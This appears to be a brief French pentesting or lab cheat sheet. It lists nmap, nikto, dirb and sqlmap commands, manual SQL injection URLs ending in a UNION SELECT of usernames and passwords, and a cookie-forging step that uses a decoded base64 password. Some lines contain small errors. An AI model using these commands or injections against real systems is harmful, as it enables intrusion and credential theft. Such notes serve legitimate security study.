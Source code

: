 
HTTP - Test connexion utilisation du debugguer pour voir les trames réseau. 
	Passer de GET à OPTION pour voir la réponse.

# Tool
nikto -h <URL>
nmap -p 1-65535 -sV -sS -T4 <IP>
dirb 

# Neonazi à l'intérieur. 
Récupération page de login.php.old, mot de passe base64, décode sur base64decode.org
Modification requête POST : Cookie: galerie=root:YXplcnR5NjU0JiY=
Réponse dans "l'inspector" ...
	
# sqlmap	
sqlmap -u "<URL>"
sqlmap -r <BurpFile>
sqlmap -r <BurpFile> --tables
sqlmap -r <BurpFile> -T users --dump

Test SQL injection manual
http://mywebsite.php/login.php?id=1'
http://mywebsite.php/login.php?id='1
	Si la requête renvoi une erreur alors injectable
http://mywebsite.php/login.php?id=1 ORDER BY 15--
	Error out of range should be between 1 and xx
http://mywebsite.php/login.php?id=1 OR 1=1 UNION SELECT username, password, 3, from users

# gcc
apt-install libc6-dev-i386
